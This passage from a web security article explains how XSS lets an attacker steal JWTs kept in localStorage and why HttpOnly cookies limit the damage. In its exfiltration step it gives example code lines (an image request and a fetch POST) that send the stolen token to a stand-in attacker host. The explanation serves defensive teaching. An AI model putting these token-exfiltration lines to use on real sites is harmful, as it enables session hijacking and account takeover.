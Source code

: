 - `localStorage.getItem('key');`: Used to retrieve stored data. For JWTs, `const token = localStorage.getItem('jwtToken');`.
This ease of access, while convenient for legitimate application JavaScript, is precisely what makes `localStorage` a hazardous storage location for sensitive tokens.
    

The XSS attack mechanism for token theft unfolds as follows:

1. **Injection:** An attacker identifies an XSS vulnerability in the target web application. This could be a reflected XSS (where malicious script is part of a URL), stored XSS (where the script is saved on the server and served to users), or DOM-based XSS (where client-side code insecurely handles data). The attacker injects a malicious script payload.
    
2. **Execution:** The victim user's browser loads the page containing the malicious script. The script executes within the context of the vulnerable application's origin.
3. **Access:** The malicious script uses the standard JavaScript `localStorage` API to access the stored JWT, for example: `let stolenToken = localStorage.getItem('jwtToken');`.

4. **Exfiltration:** The script then sends the stolen token to an attacker-controlled server. This can be achieved through various methods, such as:
    - Embedding the token in the URL of an image request: `new Image().src = 'http://attacker-controlled.com/log?token=' + stolenToken;`
    - Sending it via an `XMLHttpRequest` or `fetch` POST request: `fetch('http://attacker-controlled.com/log', { method: 'POST', body: stolenToken });`.

The Same-Origin Policy (SOP) is a critical security mechanism that restricts how a document or script loaded from one origin can interact with a resource from another origin. However, an XSS attack effectively bypasses SOP for the malicious script because the script is executed as if it originated from the trusted domain. This grants it legitimate access to that origin's resources, including `localStorage`.

`localStorage` is considered "less secure" for token storage than alternatives like `HttpOnly` cookies precisely because `HttpOnly` cookies are not accessible via client-side JavaScript. The `HttpOnly` flag instructs the browser to withhold the cookie from JavaScript access, thus preventing the direct theft vector described above, even if an XSS vulnerability exists.

This vulnerability scenario is not merely about the presence of an XSS flaw; it is significantly about the *consequence amplification* due to the insecure storage choice. An XSS vulnerability that might otherwise have a limited impact (e.g., minor page defacement or redirect) can be escalated to a critical-impact event (full account takeover) if authentication tokens are readily accessible in `localStorage`. This highlights a failure in defense-in-depth: even if XSS prevention measures fail (which can happen in complex applications), secure token handling practices should be in place to limit the potential damage. The decision to store a high-value asset like a JWT in an easily accessible location like `localStorage` turns any XSS flaw into a potential gateway for complete session compromise.

## **Common Mistakes That Cause This**

Several common mistakes and development practices contribute to the prevalence of storing JWTs in `localStorage`, thereby exposing applications to XSS-based token theft:

1. **Prioritizing Convenience over Security:** The primary mistake is choosing `localStorage` for its ease of use in JavaScript for SPAs. Developers find it convenient to directly access and manage tokens via `localStorage.setItem()` and `localStorage.getItem()` without fully considering or mitigating the inherent security risks. explicitly identifies this as a concerning practice.
    